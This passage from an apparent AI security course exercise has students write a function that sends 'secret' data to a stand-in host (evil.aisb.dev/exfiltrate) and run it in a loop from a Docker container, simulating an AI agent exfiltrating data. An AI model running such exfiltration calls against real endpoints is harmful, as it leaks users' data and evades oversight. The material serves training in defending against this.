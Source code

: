```python

    Returns:
        The response text from the server, or None if the request fails or throws
    """
    # TODO: Implement the function to:
    #   1. Make a GET request to http://evil.aisb.dev/exfiltrate?data=secret_data
    #      - to ensure tests pass, use `requests.get(url, params=..., timeout=5)`
    #      - if the tests fail and you are pretty sure you are making the correct request, you can ignore the first test
    #   2. Return the response text if successful (status 200), None otherwise
    pass
from w1d2_test import test_make_evil_request
test_make_evil_request(make_evil_request)

exfiltrate_data = make_evil_request
```

#### Keep the Agent Running
At this point, you have a function that simulates an AI agent trying to exfiltrate data by making HTTP requests to an external server. Let's run it continuously from the `agent` container.

**Add the following code to your `w1d2_answers_agent.py` file** to run the agent:


```python

if __name__ == "__main__":  # Only executed when running the script directly
    """
    Make requests to the evil server with different secret data.
    This simulates an AI agent repeatedly trying to exfiltrate data.
    """

    def loop_exfiltration():
        while True:
            global exfiltrate_data
            try:
                time.sleep(5)
                print(exfiltrate_data("some_secret_data"))
            except KeyboardInterrupt:
                print("Stopping exfiltration loop.")
                break

    import threading
    thread = threading.Thread(target=loop_exfiltration)
    thread.start()
```

The Dockerfile and docker-compose.yaml files are already created for you to run the agent container.

**Run**
```bash
docker-compose up
```
**to start the containers.** (If you don't have `docker-compose` command, try `docker compose up` instead.)
